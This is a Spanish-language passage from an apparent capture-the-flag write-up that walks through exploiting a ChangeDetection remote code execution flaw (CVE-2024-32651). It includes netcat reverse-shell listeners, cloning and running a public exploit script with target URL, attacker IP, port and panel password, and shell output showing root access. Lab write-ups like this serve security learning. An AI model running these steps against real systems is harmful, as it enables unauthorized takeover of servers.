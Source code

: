 Desde nuestro equipo, dispondremos de un archivo `index.html`, levantaremos un servidor web.&#x20;

```bash
❯ ls -l
.rw-r--r-- root root 618 B Wed Jan 22 12:51:27 2025  index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Nos pondremos en escucha por el puerto especificado en el payload. Realizaremos un par de modificaciones en el archivo de nuestra página hasta que la herramienta de `ChangeDetection` nos lo detecte.

Una vez nos lo detecte, enviará la notificación con el payload y obtendremos acceso al equipo, que en este caso, se trata del equipo de la red de Docker.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.34] 51220
# whoami
whoami
root
# hostname -I
hostname -I
172.17.0.2 
```

### ChangeDetection Exploitation automatic - Remote Code Execution \[RCE] (CVE-2024-32651)&#x20;

Otra de las maneras más sencillas, para realizar la explotación de esta vulnerabilidad, es través del siguiente repositorio. Los otros repositorios que nos encontramos no nos funcionaban correctamente debido a la autenticación al panel de la herramienta, en este nuevo script si nos permite asignar las credenciales de acceso.

{% embed url="https://github.com/evgeni-semenov/CVE-2024-32651" %}

```bash
❯ git clone https://github.com/evgeni-semenov/CVE-2024-32651; cd CVE-2024-32651
Clonando en 'CVE-2024-32651'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 15 (delta 2), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (15/15), 7.19 KiB | 7.19 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```

Realizaremos la explotación, le indicaremos la URL donde está la herramienta montada, nuestra dirección IP, el puerto donde estará en escucha y la contraseña del acceso al panel de `ChangeDetection`. Verificamos que a través de este sencillo script, logramos obtener acceso al equipo víctima.

```bash
❯ python3 cve-2024-32651.py --url http://127.0.0.1:5000 --ip 10.10.16.5 --port 444 --password alwaysandforever
Obtained CSRF token: IjI2ZWQ2ZTRkZDJhNmI0ZjhiYzAzZDU3ZjlmNzY3ZmUxNWQ4YzZjZmUi.Z5QtRA.d55yaSsruh29scUFswGxYEAf_yg
Logging in...
[+] Login succesful
Redirect URL: /edit/88e869b2-2f04-4032-bb82-8f53b5b13345?unpause_on_save=1
Final request made.
Spawning shell...
[+] Trying to bind to :: on port 444: Done
[+] Waiting for connections on :::444: Got connection from ::ffff:10.10.11.34 on port 39568
Listening on port 444...
Connection received!
[*] Switching to interactive mode
root@a4b9a36ae7ff:/app# $ hostname -I
```